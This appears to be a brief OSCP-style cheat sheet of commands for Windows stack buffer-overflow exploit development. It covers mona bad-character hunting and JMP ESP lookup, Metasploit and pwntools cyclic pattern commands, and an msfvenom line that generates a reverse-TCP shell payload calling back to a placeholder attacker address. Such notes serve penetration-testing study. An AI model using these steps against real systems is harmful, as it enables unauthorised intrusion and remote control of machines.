 # Badchars

Hunt bad chars with mona: 

https://github.com/codingo/OSCP-2/blob/master/Documents/Hunting%20bad%20characters%20with%20mona.pdf

```sh
!mona config -set workingfolder c:\logs\%p
!mona bytearray -cbp "\x00"
!mona compare -f C:\logs\<program_name>\bytearray.bin -a <bad_chars_start_address>
```

Find jump esp

```sh
!mona modules
!mona find -s "\xff\xe4" -m slmfc.dll
```

Pattern create commands

```sh
/opt/metasploit/tools/exploit/pattern_create.rb -l 900
/usr/share/metasploit-framework/tools/pattern_create.rb -l 900
pwn cyclic 900
```

Pattern offset commands

```sh
/opt/metasploit/tools/exploit/pattern_offset.rb -q 35724134
/usr/share/metasploit-framework/tools/pattern_offset.rb -q 35724134
pwn cyclic -l <offset>
```

Shellcode

```sh
msfvenom -p windows/shell_reverse_tcp LHOST=XX.XX.XX.XX LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e" -f c -a x86 --platform windows -v shellcode
```

